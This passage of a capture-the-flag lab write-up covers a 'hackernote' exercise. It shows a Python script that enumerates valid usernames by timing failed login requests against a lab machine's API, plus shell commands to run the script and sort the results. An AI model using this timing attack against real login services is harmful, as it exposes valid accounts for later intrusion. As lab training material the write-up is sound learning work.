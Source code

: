 ```
# Nmap done at Mon Jan 31 18:38:35 2022 -- 1 IP address (1 host up) scanned in 1459.69 seconds
```

- [Using “nmap”](https://cardboard-iguana.com/notes/nmap.html)

## Exploit

The point of this exercise is to write a Python script to take advantage of the timing difference between trying to log in using a valid vs. invalid username.

```
#!/usr/bin/python3

import sys
import time
import requests
usernames = open(sys.argv[2], 'r')
for username in usernames.readlines():
creds = {
'username': username.strip(),
'password': 'invalidPassword!'
}
startTime = time.time()
response = requests.post('http://' + sys.argv[1] + '/api/user/login', json = creds)
endTime = time.time()
print(str(endTime - startTime) + " " + username.strip())
usernames.close()
```

- [Opening and Closing Files in Python](https://www.tutorialspoint.com/opening-and-closing-files-in-python)
- [Python - Command Line Arguments](https://www.tutorialspoint.com/python/python_command_line_arguments.htm)
- [Python File readlines() Method](https://www.tutorialspoint.com/python/file_readlines.htm)
- [Quickstart – Requests](https://docs.python-requests.org/en/latest/user/quickstart/)
- [Calculating Time Difference](https://stackoverflow.com/a/3426953)
- [Python string | strip()](https://www.geeksforgeeks.org/python-string-strip/)

My general strategy here is to not get too fancy in Python, but rather just to output the time it takes to log in given a particular username and then do the subsequent analysis using normal shell tools.

Saving the above script as `hackernote-user-enum.py` and using the `Names/names.txt` list (which is the shorter – as suggested – of the two lists mentioned by the exercise), we create an ordered lists where those usernames that took longest to respond with an error message are listed last:

```
chmod +x hackernote-user-enum.py
unbuffer ./hackernote-user-enum.py 10.10.156.141 \
names.txt | \
tee hackernote-user-enum.out
cat hackernote-user-enum.out | sort -n
```
